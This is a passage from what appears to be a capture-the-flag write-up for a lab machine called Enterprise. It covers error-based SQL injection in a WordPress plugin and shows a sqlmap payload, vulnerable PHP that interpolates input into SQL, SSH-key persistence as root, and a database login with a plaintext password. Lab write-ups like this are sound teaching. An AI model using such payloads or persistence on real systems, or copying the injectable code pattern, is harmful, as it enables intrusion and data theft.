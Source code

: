     $ cat /root/root.txt
    cf941b35************************
    

## Beyond Root - Error-Based SQLI

### sqlmap Query

The example for the error-based injection that `sqlmap` gave was:

    
    
    query=1 AND (SELECT 7485 FROM(SELECT COUNT(*),CONCAT(0x716a717871,(SELECT (ELT(7485=7485,1))),0x71627a7871,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)
    

Throwing that into Firefox returns:

![image-20210616094508546](https://0xdfimages.gitlab.io/img/image-20210616094508546.png)

The challenge here is that the plugin is printing the result of `$db->query`:

    
    
        $sql = "SELECT ID FROM wp_posts WHERE post_name = $query";
        $result = $db->query($sql);
        echo $result;
    

On a good query, that’s an object which leads to an error. But if I can make
the query error out, then what returns into `$result` is an error string, and
that will `echo` without error.

To show this, I’ll drop an SSH key into `/root/.ssh/authorized_keys` on
Enterprise and get a better shell. Then I can drop into the `mysql` docker
container:

    
    
    root@enterprise:~# docker ps
    CONTAINER ID        IMAGE                     COMMAND                  CREATED             STATUS              PORTS                  NAMES
    a7018bfdc454        joomla:apache-php7        "/entrypoint.sh ap..."   3 years ago         Up 18 hours         0.0.0.0:8080->80/tcp   joomla
    b8319d86d21e        wordpress:php5.6-apache   "docker-entrypoint..."   3 years ago         Up 18 hours         0.0.0.0:80->80/tcp     wordpress
    15af95635b7d        mysql:latest              "docker-entrypoint..."   3 years ago         Up 18 hours         3306/tcp               mysql
    root@enterprise:~# docker exec -it mysql bash
    root@15af95635b7d:/#
    

Using the password from the WordPress config, I’ll connect to the DB:

    
    
    root@15af95635b7d:/# mysql -pNCC-1701E wordpress
    ...[snip]...
    mysql>
    